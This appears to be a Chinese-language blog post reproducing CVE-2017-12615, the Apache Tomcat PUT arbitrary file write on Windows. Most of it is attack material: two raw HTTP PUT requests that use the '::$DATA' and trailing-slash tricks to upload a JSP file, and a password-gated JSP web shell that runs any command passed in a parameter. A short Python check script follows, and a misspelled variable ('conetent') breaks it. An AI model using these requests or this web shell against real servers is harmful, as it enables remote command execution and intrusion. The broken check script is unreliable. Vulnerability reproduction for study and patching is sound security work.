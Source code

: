 date: 2020-02-08
categories:
- cve复现
tags:
- cve复现
title: Tomcat PUT方法任意写文件漏洞CVE-2017-12615
---
# Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）



## 利用条件

 Apache Tomcat 7.0.0 - 7.0.79 

平台: Windows 

 启用了 HTTP PUT 请求方法  (conf/web.xml 中对于 DefaultServlet 的 readonly 设置为 false)



## 利用方式

不能直接上传jsp结尾的文件

利用windows平台下:` sample.txt::$DATA `等价于`sample.txt`的特性来写shell



```
PUT /111.jsp::$DATA HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```



```
PUT /111.jsp/ HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```





```java
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```



## 检测脚本

```python
import requests
def poc(url):
    filename="tomcat_check_vuln.txt"
    content="test"
    try:
        requests.put(url+"/"+filename,data=conetent)
        res=requests.get(url+"/"+filename)
    except :
        return False
    
    if res.status_code==200:
        return True
    return False

```

